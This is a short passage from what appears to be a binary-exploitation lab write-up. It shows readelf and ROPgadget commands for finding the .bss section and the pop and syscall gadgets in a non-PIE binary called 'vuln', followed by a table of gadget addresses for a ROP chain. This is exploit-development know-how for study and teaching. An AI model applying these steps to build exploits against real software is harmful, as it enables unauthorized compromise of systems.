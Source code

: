 ```bash
readelf -S vuln | grep bss
```
![bss](./img/bss.png)


* Confirm gadgets (use ROPgadget or ROP tool):

```bash
ROPgadget --binary vuln | grep ': pop r[ads][ix] ; ret$'
```

![rog gadgetsa](./img/gadgets.png)


* Find simple syscall gadget:

```bash
ROPgadget --binary vuln | grep 'syscall$'
```

![syscall](./img/syscall.png)




---

# Gadgets & addresses used (from your run)

(Use the addresses found on your machine — these are fixed because the binary is non-PIE.)

```python
pop rax ; ret  # -> 0x00000000004005af
pop rdi ; ret  # -> 0x00000000004006a6
pop rsi ; ret  # -> 0x0000000000410b93
pop rdx ; ret  # -> 0x0000000000410602
syscall        # -> 0x000000000040138c
.bss start     # -> 0x00000000006bc3a0   (writable space)
read() symbol  # -> elf.symbols['read']  (use pwntools to get exact address)
```

